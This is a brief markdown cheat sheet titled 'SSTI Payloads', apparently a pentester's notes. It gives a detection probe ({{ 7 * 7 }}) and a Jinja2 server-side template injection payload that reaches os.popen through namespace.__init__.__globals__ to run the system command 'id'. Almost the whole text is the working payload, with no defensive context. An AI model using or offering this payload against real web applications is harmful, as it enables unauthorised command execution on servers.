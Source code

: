 # SSTI Payloads

#Test Payloads
```
{{ 7 * 7 }}
```
```
Test for System Execution
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
